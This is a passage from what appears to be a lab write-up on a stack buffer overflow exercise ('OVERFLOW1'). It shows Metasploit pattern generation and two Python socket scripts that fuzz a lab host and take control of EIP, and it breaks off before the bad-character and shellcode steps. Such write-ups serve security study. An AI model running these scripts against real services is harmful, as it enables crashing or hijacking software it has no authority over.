 ```shell
┌──(mike㉿kali)-[~]
└─$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2400 
Aa0Aa1Aa2Aa3Aa4  [[**Redacted**]]    b7Db8Db9
```

```python
import socket,sys,time

payload = "OVERFLOW1 " +  "Aa0Aa1Aa2Aa3Aa4  [[**Redacted**]]    b7Db8Db9"

try:
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("10.10.62.72",1337))
    s.recv(1024)
    print("sending handy work")
    s.send(bytes(payload, "latin-1"))
    print("done")
except:
    print("didn't connect")
```

now at this point we will use `MONA Framework` to get the offset point 
![](/image/20240131082134.png)
if we don't have mona we will note down the EIP address and use `Pattern_offset.rb -l 2400 -q <address>`

here i have used -l 2210 just for demonstration(not necessary if you have mona)
 ![](/image/20240129000333.png)

#### Controlling the EIP

```python
import sys,socket,time

payload = "A" * 1978 + "BCDE" <--------------# EIP control value

try:
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("10.10.62.72",1337))
    s.recv(1024)
    print ("sending to find offset")
    sendme = "OVERFLOW1 " + payload
    s.send(bytes(sendme, "latin-1"))
    print ("done")
except:
    print("unable to connect")
```

![](/image/20240131082759.png)

#### Finding the bad character to make shellcode (manually)

